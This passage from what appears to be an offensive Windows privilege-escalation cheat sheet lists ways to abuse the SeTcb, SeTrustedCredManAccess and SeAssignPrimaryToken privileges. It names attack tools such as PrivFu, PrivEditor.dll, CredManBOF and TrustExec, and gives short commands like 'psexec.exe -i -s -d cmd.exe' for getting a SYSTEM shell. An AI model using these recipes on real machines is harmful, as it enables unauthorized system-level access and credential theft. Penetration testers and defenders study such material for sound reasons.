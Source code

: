 4\. Lock the console and press Win+U

<a name="abusing-via-setcb"></a>
# Abusing via SeTcb 

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

PSBits

Or

PrivFu

2\.

psexec.exe -i -s -d cmd.exe

<a name="abusing-via-setrustedcredmanaccess"></a>
# Abusing via SeTrustedCredManAccess 

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

.load C:\\dev\\PrivEditor\\x64\\Release\\PrivEditor.dll

Or

CredManBOF

2\.

TrustExec.exe -m exec -c \"whoami /priv\" -f

<a name="abusing-tokens-via-seassignprimarytoken"></a>
# Abusing tokens via SeAssignPrimaryToken

Domain: No

Local Admin: Yes
